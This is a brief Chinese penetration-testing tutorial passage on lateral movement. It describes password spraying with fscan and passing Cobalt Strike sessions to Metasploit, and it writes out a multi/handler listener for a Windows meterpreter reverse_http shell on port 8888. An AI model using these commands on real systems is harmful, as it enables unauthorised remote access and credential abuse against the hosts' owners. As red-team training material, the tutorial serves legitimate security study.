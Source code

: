 在利用`cs`进行横向移动时，发现如果`主机和口令`数量足够多的话，比较影响效率，可以使用相关口令扫描工具进行密码喷射如`超级弱口令扫描工具`、`fscan`等，然后进行集中利用。

下面使用`cs派生到msf`进行口令探测和利用：

首先cs建立msf监听器

![](img/12.png)

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 8888
run
```

![](img/34.png)

选择之后，msf就会立马收到CS送的(派生)shell权限。
